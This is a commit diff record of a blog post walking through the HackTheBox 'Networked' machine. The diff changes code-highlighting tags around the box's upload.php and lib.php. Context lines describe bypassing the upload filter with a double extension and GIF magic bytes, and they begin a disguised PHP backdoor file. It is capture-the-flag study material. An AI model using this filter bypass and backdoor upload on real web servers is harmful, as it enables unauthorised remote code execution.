

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-11-18-Hackthebox-Networkd-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 4167 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
2019-11-18 networkd-walkthrough

```diff
--- a/_posts/2019-11-18-Hackthebox-Networkd-Walkthrough.md
+++ b/_posts/2019-11-18-Hackthebox-Networkd-Walkthrough.md
@@ -84,6 +84,7 @@ upload.php
 Sounds "upload.php" is to upload a file. The function for that is defined in "lib.php"<br>
 upload.php:
 {% highlight php %}
+<?php
 require '/var/www/html/lib.php';
 
 define("UPLOAD_DIR", "/var/www/html/uploads/");
@@ -137,8 +138,8 @@ if( isset($_POST['submit']) ) {
 {% endhighlight %}
 
 lib.php:
-{% highlight shell %}
-
+{% highlight php %}
+<?php
 ---
 
 function file_mime_type($file) {
@@ -189,6 +190,7 @@ function getnameUpload($filename) {
 
 ---
 
+?>
 {% endhighlight %}
 
 In summerize, what "upload.php" is doing the followings.
@@ -199,7 +201,7 @@ In summerize, what "upload.php" is doing the followings.
 5. Finally, move the uploaded file from the temporary directory to "/uploads"
 
 This means, by using double extention method, with adding appropriate magic bytes, we can bypass the filter.
-{% highlight shell %}
+{% highlight php %}
 root@kali:~# cat simple-backdoor.php.gif
 GIF89a
 <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->
```
